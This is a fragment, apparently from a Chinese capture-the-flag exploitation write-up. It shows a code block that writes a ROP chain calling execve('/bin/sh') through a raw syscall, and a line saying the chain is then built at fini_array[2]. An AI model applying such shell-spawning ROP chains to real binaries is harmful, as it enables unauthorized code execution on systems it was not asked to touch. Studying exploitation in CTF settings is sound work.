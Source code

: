 [![](assets/1706959474-482baf25186d23ad5b38aa974c36a8a9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125152250-8c02fe92-bb52-1.png)

```bash
write(esp,p64(rax))
write(esp+8,p64(0x3b)) 
write(esp+16,p64(rdi)) 
write(esp+24,p64(bin_sh))
write(esp+32,p64(rsi))
write(esp+40,p64(0))
write(esp+48,p64(rdx))
write(esp+56,p64(0))
write(esp+64,p64(syscall))
```

然后在 fini\_array\[2\]处构造 rop 即可
